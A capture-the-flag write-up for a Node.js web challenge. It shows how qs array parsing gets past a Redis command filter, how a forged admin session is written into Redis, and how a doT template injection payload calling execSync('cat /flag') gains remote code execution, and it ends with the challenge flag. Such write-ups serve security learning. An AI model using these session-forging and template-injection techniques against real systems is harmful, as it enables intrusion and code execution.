

## basic injection v4  



The challenge backend has an `/option` endpoint that has a clear SSTI vulnerability, but requires us to be authenticated as admin to access it.  

```js
app.get('/option', function(req, res) {
    if (req.session.userid !== "admin") {
        res.send('nope! ヾ (✿＞﹏ ⊙〃)ノ');
        return;
    }
    
    const name = req.query.name || 'Admin';
    const templateFn = doT.template(`<h1>Hello ${name}</h1>`);
    res.send(templateFn({}));
});
```

The flag file isn't referenced anywhere in the code, and the Dockerfile shows that it's stored in root, so we do have to use SSTI to gain RCE and read the flag file.  

```dockerfile
COPY app.js .
COPY flag /

RUN echo '#!/bin/bash\n\
redis-server --daemonize yes\n\
sleep 2\n\
node app.js' > /app/start.sh && \
    chmod +x /app/start.sh

EXPOSE 5000

CMD ["/app/start.sh"]
```

The backend uses Redis for authentication, and there is a `/setting` endpoint that allows us to execute Redis commands. We could potentially use this endpoint to modify our `userid` in the Redis database.  

However, the main issue is that the endpoint enforces some checks and attempts to limit us to only `GET` requests.  

```js
app.get('/setting', function(req, res) {
    var log_query = req.query.log_query;
    
    try {
        log_query = log_query.split('/');
        if (log_query[0].toLowerCase() != 'get') {
            log_query[0] = 'get';
        }
        log_query[1] = log_query.slice(1);
    } catch (err) {
    }
    
    try {
        redis_client.send_command(log_query[0], log_query[1], function(err, result) {
            if (err) {
                res.send('nope! ヾ (✿＞﹏ ⊙〃)ノ');
            } else {
                res.send(result);
            }
        });
    } catch (err) {
        res.send('nope! ヾ (✿＞﹏ ⊙〃)ノ');
    }
});
```

Luckily, the app uses `qs` to parse query parameters as objects.  

```js
app.set('query parser', function(str) {
    return qs.parse(str);
});
```

We can abuse this to bypass the checks in `/setting` entirely. By passing in our query parameters as an array, `/setting` will throw an error and bypass the checks entirely.  

We can first retrieve our session ID from the webpage cookies, then run a `SET` command to modify our `userid` in the database.  

```python
cookie = unquote(res.cookies['connect.sid'])
sess = cookie[cookie.index(':') + 1:].split(".")[0]

payload = {
  "cookie": {
    "originalMaxAge": None,
    "expires": None,
    "httpOnly": None,
    "path": "/"
  },
  "userid": "admin"
}

res = s.get(f'{url}/setting?log_query[0]=set&log_query[1][]=sess:{sess}&log_query[1][]={json.dumps(payload)}')
```

After logging in as admin, we can then use the SSTI vuln from earlier to get RCE and read the flag.  

```js
{{=process.mainModule.require("child_process").execSync("cat /flag").toString()}}
```

Flag: `DH{b5e37cf6994adec44e54f42fc4db409eaf885f6f}`